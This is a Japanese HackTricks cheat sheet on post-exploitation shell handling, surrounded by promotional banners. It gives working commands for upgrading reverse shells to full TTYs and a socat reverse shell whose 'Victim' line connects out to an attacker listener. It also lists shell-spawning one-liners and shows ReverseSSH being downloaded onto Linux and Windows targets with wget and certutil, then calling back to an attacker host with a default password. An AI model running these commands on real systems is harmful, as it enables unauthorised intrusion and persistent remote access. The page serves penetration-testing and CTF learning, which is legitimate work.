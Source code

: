 # Full TTYs

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**モバイルセキュリティ**の専門知識を8kSecアカデミーで深めましょう。自己ペースのコースを通じてiOSとAndroidのセキュリティをマスターし、認定を取得しましょう：

{% embed url="https://academy.8ksec.io/" %}

## Full TTY

`SHELL`変数に設定するシェルは、必ず_**/etc/shells**_に**リストされている必要があります**。そうでない場合は、`The value for the SHELL variable was not found in the /etc/shells file This incident has been reported`というエラーメッセージが表示されます。また、次のスニペットはbashでのみ動作することに注意してください。zshを使用している場合は、`bash`を実行してbashに切り替えてからシェルを取得してください。

#### Python

{% code overflow="wrap" %}
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

{% hint style="info" %}
**`stty -a`**を実行することで、**行**と**列**の**数**を取得できます。
{% endhint %}

#### スクリプト

{% code overflow="wrap" %}
```bash
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

#### socat
```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
### **シェルを生成する**

* `python -c 'import pty; pty.spawn("/bin/sh")'`
* `echo os.system('/bin/bash')`
* `/bin/sh -i`
* `script -qc /bin/bash /dev/null`
* `perl -e 'exec "/bin/sh";'`
* perl: `exec "/bin/sh";`
* ruby: `exec "/bin/sh"`
* lua: `os.execute('/bin/sh')`
* IRB: `exec "/bin/sh"`
* vi: `:!bash`
* vi: `:set shell=/bin/bash:shell`
* nmap: `!sh`

## ReverseSSH

**インタラクティブシェルアクセス**、および**ファイル転送**と**ポートフォワーディング**の便利な方法は、ターゲットに静的リンクされたsshサーバー[ReverseSSH](https://github.com/Fahrj/reverse-ssh)を配置することです。

以下は、upx圧縮バイナリを使用した`x86`の例です。他のバイナリについては、[リリースページ](https://github.com/Fahrj/reverse-ssh/releases/latest/)を確認してください。

1. sshポートフォワーディングリクエストをキャッチするためにローカルで準備します：

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -v -l -p 4444
```
{% endcode %}

* (2a) Linuxターゲット:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -p 4444 kali@10.0.0.2
```
{% endcode %}

* (2b) Windows 10 ターゲット（以前のバージョンについては、[プロジェクトのリードミー](https://github.com/Fahrj/reverse-ssh#features)を確認してください）:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
certutil.exe -f -urlcache https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86.exe reverse-ssh.exe

reverse-ssh.exe -p 4444 kali@10.0.0.2
```
{% endcode %}

* ReverseSSHポートフォワーディングリクエストが成功した場合、`reverse-ssh(.exe)`を実行しているユーザーのコンテキストで、デフォルトのパスワード`letmeinbrudipls`を使用してログインできるはずです：
```bash
# Interactive shell access
ssh -p 8888 127.0.0.1

# Bidirectional file transfer
sftp -P 8888 127.0.0.1
```
## Penelope

[Penelope](https://github.com/brightio/penelope) は、Linux リバースシェルを自動的に TTY にアップグレードし、ターミナルサイズを処理し、すべてをログに記録し、さらに多くの機能を提供します。また、Windows シェルのための readline サポートも提供します。

![penelope](https://github.com/user-attachments/assets/27ab4b3a-780c-4c07-a855-fd80a194c01e)

## No TTY

何らかの理由で完全な TTY を取得できない場合でも、**ユーザー入力を期待するプログラムと対話することができます**。次の例では、パスワードが `sudo` に渡されてファイルを読み取ります：
```bash
expect -c 'spawn sudo -S cat "/root/root.txt";expect "*password*";send "<THE_PASSWORD_OF_THE_USER>";send "\r\n";interact'
```
<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**モバイルセキュリティ**の専門知識を深めるために、8kSecアカデミーをご利用ください。自己ペースのコースを通じてiOSとAndroidのセキュリティをマスターし、認定を取得しましょう：

{% embed url="https://academy.8ksec.io/" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
